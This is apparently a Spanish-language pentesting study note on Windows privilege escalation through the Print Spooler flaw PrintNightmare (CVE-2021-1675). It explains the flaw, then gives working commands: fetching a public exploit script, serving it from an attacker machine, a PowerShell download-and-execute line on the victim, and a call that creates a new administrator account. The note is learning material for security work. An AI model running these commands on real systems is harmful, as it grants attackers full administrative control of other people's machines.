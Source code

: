-----
- Tags: #escalada #teoria #practica
----
# Print Spooler

### El **Print Spooler** (También conocido como "Spooler de impresión") en Windows es un servicio  del sistema operativo que administra la impresión de documentos en una impresora conectada a la computadora. Su función principal es manejar la cola de impresión, que es una lista de trabajos de impresión pendientes que esperan ser procesados y enviados a la impresora.

-----
# PrintNightmare (CVE-2021-1675)

### Un atacante remoto autenticado puede abusar del servicio de cola de impresión para cargar una DLL a través de una solicitud DCERPC diseñada, lo que resulta en la ejecución remota de código como **NT AUTHORITY\\SYSTEM**. Este módulo utiliza el vector MS-RPRN que requiere que se esté ejecutando el servicio Print Spooler.

----
# Explotación 

### Para explotar esto, podemos hacer uso de un [script en powershell](https://github.com/calebstewart/CVE-2021-1675) que automatiza toda la explotación de esta vulnerabilidad asociada al **CVE-2021-1675**. 

#### Máquina atacante
```bash
wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1

python3 -m http.server 80
```
#### Máquina víctima
```powershell
IEX(New-Object Net.WebClient).downloadString('http://{our_ip}/CVE-2021-1675.ps1')

Invoke-Nightmare -DriverName "dobliuw" -NewUser "dobliuw" -NewPassword "dobliuw123$!"
```
### Una vez realizado este proceso, se creara un nuevo usuario llamado dobliuw con la contraseña dobliuw123$! perteneciente al grupo **Administrators** de manera que habríamos escalado privilegios obteniendo el máximo acceso al sistema.


